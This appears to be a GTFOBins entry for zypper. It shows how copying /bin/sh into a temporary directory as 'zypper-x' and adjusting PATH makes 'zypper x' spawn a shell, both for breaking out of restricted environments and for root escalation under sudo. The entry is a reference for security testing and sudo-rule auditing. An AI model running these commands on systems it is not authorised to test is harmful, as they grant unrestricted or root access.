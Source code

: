 # GTFOBin: zypper

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.

```
zypper x
```

```
TF=$(mktemp -d)
cp /bin/sh $TF/zypper-x
export PATH=$TF:$PATH
zypper x
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.

```
sudo zypper x
```

```
TF=$(mktemp -d)
cp /bin/sh $TF/zypper-x
sudo PATH=$TF:$PATH zypper x
```